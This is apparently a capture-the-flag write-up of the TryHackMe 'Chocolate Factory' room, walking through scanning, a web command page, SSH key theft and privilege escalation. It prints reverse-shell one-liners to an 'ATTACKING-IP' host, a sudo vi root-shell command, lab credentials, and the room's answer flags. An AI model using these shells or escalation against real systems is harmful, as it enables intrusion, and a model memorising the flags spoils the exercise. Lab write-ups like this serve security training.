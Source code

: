 # Chocolate Factory Writeup

This room can be found at https://tryhackme.com/room/chocolatefactory

This room is made by 0x9747, saharshtapi and AndyInfoSec

## Inital Analysis

### NMap

Using `nmap` to scan the ip, there are multiple ports open.

```
Port 21 - FTP
Port 22 - SSH
Port 80 - Apache Web Server
Port 100, 106, 109, 110, 111, 113, 119, 125 - Unknown services
```

Port 100, 106, 109, 110, 111, 119, 125 all return
```
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
```

While port 113 returns
```
| fingerprint-strings: 
|   GenericLines, NULL, RPCCheck, RTSPRequest, TerminalServerCookie, oracle-tns: 
|_    http://localhost/key_rev_key <- You will find the key here!!!
```
This looks like a hint on where to look.
Opening the link on a browser, an elf file `key_rev_key` is downloaded.

#### key_rev_key
Using `strings` on the elf file,
```
Enter your name: 
laksdhfas
 congratulations you have found the key:   
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
 Keep its safe
Bad name!
```
Maybe `laksdhfas` is the name and `b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='` is the key?

I ran the program and it asked for my name, with `laksdhfas` as the name, the key is indeed
`b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='`.

![Key found](images/1.png)

This is the key for the first question.

#### FTP

The `nmap` scan earlier showed that the FTP port is open and anonymous login is enabled.
`nmap` found an image file `gum_room.jpg`.

Logging in as anonymous and downloading the file, it looks like just a picture of gum. There might be more information hidden inside the image file itself.

However, `exiftool` and `binwalk` did not reveal much.

![exiftool and binwalk](images/2.png)

I tried to extract information with `steghide` using the key found earlier but it did not work. So I left this part as is first.

### Gobuster

Using gobuster to find pages on port 80,

```
/.php                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 1466]
/.html                (Status: 403) [Size: 278]
/home.php             (Status: 200) [Size: 569]
/home.jpg             (Status: 200) [Size: 65719]
```
`index.html` showed a login page which used `validate.php` to check whether the credentials are valid.

`home.php` looks interesting so I went to check it out

A webpage with a `Command` textbox and an `Execute` button.
![home.php](images/3.png)

Running linux commands such as `id` returned ` uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root),27(sudo)`. Perhaps this can create a reverse shell.

I tried to create a reverse shell with
`bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1`, however it did not work. As this is a .php page, perhaps a php reverse shell might work.

`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'` was able to spawn a reverse shell.

![Reverse shell created](images/4.png)

#### wwww-data
Using `ls -la`

```
$ ls -la
total 1152
drwxr-xr-x 2 root    root       4096 Oct  6  2020 .
drwxr-xr-x 3 root    root       4096 Sep 29  2020 ..
-rw------- 1 root    root      12288 Oct  1  2020 .swp
-rw-rw-r-- 1 charlie charley   65719 Sep 30  2020 home.jpg
-rw-rw-r-- 1 charlie charley     695 Sep 30  2020 home.php
-rw-rw-r-- 1 charlie charley 1060347 Sep 30  2020 image.png
-rw-rw-r-- 1 charlie charley    1466 Oct  1  2020 index.html
-rw-rw-r-- 1 charlie charley     273 Sep 29  2020 index.php.bak
-rw-r--r-- 1 charlie charley    8496 Sep 30  2020 key_rev_key
-rw-rw-r-- 1 charlie charley     303 Sep 30  2020 validate.php
```

`key_rev_key` must be the elf file downloaded earlier.

`cat validate.php` showed the code used to validate the credentials for the login page.

```
<?php
        $uname=$_POST['uname'];
        $password=$_POST['password'];
        if($uname=="charlie" && $password=="cn7824"){
                echo "<script>window.location='home.php'</script>";
        }
        else{
                echo "<script>alert('Incorrect Credentials');</script>";
                echo "<script>window.location='index.html'</script>";
        }
?>$ 
```

Seems like the credentials are `charlie:cn7824`

The password is the answer for the second question of this room.

I tried to use this as ssh credentials but the password was wrong.

Looking through other directories, `charlie`'s home folder contained some files

```
$ ls -la
total 40
drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
```

I tried to `cat user.txt` but `www-data` did not have permissions. However, `teleport` and `teleport.pub` was able to be read.

`teleport` contained a RSA private key. Perhaps this can be used to ssh as charlie. This key is not password protected therefore I was able to ssh to charlie without any password.

With `charlie`'s permissions, I am able to read `user.txt`.

```
user flag: flag{cd5509042371b34e4826e4838b522d2e}
```

## Privilege Escalation

Using `sudo -l`,

```
User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null
```
Using GTFOBins, `vi` can be exploited by running `sudo vi -c ':!/bin/sh' /dev/null`. Now I have root permissions,

![Root Access](images/5.png)

Changing to the root directory, there is a file `root.py`, running it with python, it asks for a key. This might be the key found earlier, `b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='`, entering the key reveals the root flag.

![Root Flag](images/6.png)

```
root flag: flag{cec59161d338fef787fcb4e296b42124}
```
